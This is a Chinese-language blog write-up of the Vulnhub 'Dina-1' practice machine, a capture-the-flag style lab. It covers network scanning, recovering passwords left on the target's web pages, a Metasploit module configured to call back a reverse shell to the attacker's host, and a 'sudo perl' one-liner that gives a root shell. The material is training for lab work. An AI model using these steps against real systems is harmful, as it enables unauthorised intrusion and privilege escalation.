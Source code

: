 ```yaml
---
layout: post
title: Dina-1
subtitle: Dina-1
date: 2023-07-08 10:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: off
---
```


主机发现

```shell
sudo arp-scan -l
```

![image.png300](https://img.ghostliner.top/lLgUbT.png)

```shell
nmap -T4 -A -p- 192.168.163.133
```

![image.png300](https://img.ghostliner.top/A2HyBe.png)

只有 80 端口，访问网站，目录扫描，扫描到`robots.txt` secure 目录
![image.png300](https://img.ghostliner.top/Lsk2KW.png)

`/nothing` 发现密码 `my secret pass freedom password helloworld! diana iloveroot`
![image.png300](https://img.ghostliner.top/ppisSE.png)

下载 <http://192.168.163.133/secure/backup.zip>

使用密码 `freedom` 成功解压
![image.png300](https://img.ghostliner.top/iQNEDt.png)

访问 `/SecreTSMSgatwayLogin` 登陆用户名：touhid 密码：diana

浏览网站发现`send from file`页面可以上传文件，上传木马显示成功，但未找到

```shell
# 扫描网站框架
whatweb -v http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/BuPbjv.png)

msf 搜索相关漏洞，选择 0
![image.png300](https://img.ghostliner.top/TDlxDk.png)

```shell
options
set rhosts 192.168.163.133
set lhost 192.168.163.132
set username touhid
set password diana
set TARGETURI http://192.168.163.133/SecreTSMSgatwayLogin/
```

![image.png300](https://img.ghostliner.top/XVCPJ6.png)

```shell
sudo perl -e 'exec "/bin/bash";'
```

![image.png300](https://img.ghostliner.top/RSWciW.png)
